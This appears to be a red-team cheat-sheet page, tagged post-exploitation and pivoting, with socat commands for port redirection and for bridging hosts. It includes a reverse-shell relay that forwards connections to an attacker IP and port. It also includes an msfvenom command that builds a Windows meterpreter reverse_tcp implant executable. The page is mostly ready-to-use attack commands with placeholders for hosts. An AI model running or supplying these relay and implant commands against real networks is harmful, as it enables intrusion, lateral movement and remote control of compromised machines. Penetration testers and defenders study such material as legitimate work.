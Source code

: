 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - scenarios
  - cross-platform
  - socat
---
```

# Socat

## 01 - Usage

### 1.1 - Open Two Listening Ports

```
> socat -v tcp-listen:<local_PORT_1> tcp-listen:<local_PORT_2>
```

### 1.2 - Redirect Port

```
> socat tcp-listen:<local_PORT>,reuseaddr tcp-connect:<target_IP>:<target_PORT>
```

### 1.3 - Bridge Two Hosts

```
> socat -v tcp-connect:<target_IP_1>:<target_PORT_1>,reuseaddr tcp-connect:<target_IP_2>:<target_PORT_2>
```

## 02 - Scenarios

### 2.1 - Port Forward Reverse Shell

```
> socat tcp4-listen:<pivot_PORT>,fork tcp4:<attacker_IP>:<attacker_PORT>
```

Generate a reverse shell with the IP address of the compromised machine to pivot from.

```
userware@hackware-os:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<pivot_IP> lport=<pivot_PORT> -f exe -o implant.exe
```

### 2.2 - Bind Web Server Port

```
> socat tcp-listen:8443,reuseaddr tcp-connect:<webserver_IP>:443
```

Then use `curl` to check connect to the pivot server.

```
userware@hackware-os:~$ curl -k https://<pivot_IP>:8443
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Implant/Cross Platform/Payloads/One-Liners/Socat]]

### Internal All The Things

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [Artkond Pivoting Guide](https://artkond.com/2017/03/23/pivoting-guide/)

- [SevenLayers: Socat Reverse Shell Relay](https://sevenlayers.com/index.php/blog/500-socat-reverse-shell-relay)

- [CyberSec Wikimandine: Socat](https://amandinegh.gitbook.io/cyberadventure/internal/pivoting-tunneling-and-port-forwarding/socat)